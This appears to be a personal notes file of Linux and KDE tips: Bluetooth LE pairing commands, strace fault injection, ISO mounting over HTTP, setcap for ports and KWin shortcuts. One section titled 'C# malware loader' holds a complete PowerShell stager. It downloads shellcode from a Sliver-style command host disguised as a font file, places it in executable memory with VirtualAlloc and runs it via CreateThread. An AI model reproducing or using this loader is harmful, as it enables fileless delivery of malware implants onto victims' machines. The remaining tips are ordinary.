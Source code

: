 # Random stuff

## Bt cli connect/LE

> From kde ru telegram

```
sudo btmgmt power off
sudo btmgmt discov on
sudo btmgmt connectable on
sudo btmgmt pairable on
sudo btmgmt power on
pair {mac моих наушников}


Наушники подключаются в режиме LE, можно увидеть с помощью команды hcitool, но без звука, в панели громкости kde в качестве устройства для вывода не появляются, но как только дописывают
вместо pair, connect {MAC}, то теперь и LE и ACL можно увидеть через hcitool, до этих махинация только ACL всегда было
```

## C# malware loader

siren: also since psh is a fucking C# interpreter you might as well use it to execute a proper stager

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
[DllImport("kernel32")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress,
    uint dwSize,
    uint flAllocationType,
    uint flProtect);
[DllImport("kernel32", CharSet=CharSet.Ansi)]
public static extern IntPtr CreateThread(
    IntPtr lpThreadAttributes,
    uint dwStackSize,
    IntPtr lpStartAddress,
    IntPtr lpParameter,
    uint dwCreationFlags,
    IntPtr lpThreadId);
[DllImport("kernel32.dll", SetLastError=true)]
public static extern UInt32 WaitForSingleObject(
    IntPtr hHandle,
    UInt32 dwMilliseconds);
}
"@
Add-Type $Win32

$shellcode = (New-Object System.Net.WebCLient).DownloadData("http://sliver.labnet.local/fontawesome.woff")
if ($shellcode -eq $null) {Exit};
$size = $shellcode.Length

[IntPtr]$addr = [Win32]::VirtualAlloc(0,$size,0x1000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($shellcode, 0, $addr, $size)
$thandle=[Win32]::CreateThread(0,0,$addr,0,0,0);
[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

## Strace inject

strace -e inject=fdatasync:delay_enter=10000000 dolphin

## Mount iso

> From: https://aur.archlinux.org/packages/ttf-ms-win10-auto

echo "  - Mounting HTTP file"
httpfs2 -c /dev/null "$_iso" mnt/http
echo "  - Creating loop device"
_isoFile="mnt/http/$(echo "$_iso" | awk -F "/" '{print $NF}')"
_loopDev=$(udisksctl loop-setup -r -f "${_isoFile}" --no-user-interaction 2>/dev/null | awk '{print $NF}')
_loopDev=$(losetup --list | grep "$_isoFile" | awk '{print $1}')
echo "  - Mounting loop device: $_loopDev"
_mountpoint=$(udisksctl mount -t udf -b "$_loopDev" --no-user-interaction | awk '{print $NF}')
echo "  - Loop device mounted as ISO at: $_mountpoint"

## Bash redirect all stdout 🙃

exec 1> >(ccze -A)

## Unpriviliged ports

setcap 'cap_net_bind_service=+ep' /path/to/program

## Images
https://pomf2.lain.la/f/0hvkp6v.tar.gz

## Kwin shortcuts
https://gist.github.com/tm9k1/2972988f8ccd920b37284ffc20a2f835
qdbus org.kde.kglobalaccel /component/kwin org.kde.kglobalaccel.Component.shortcutNames
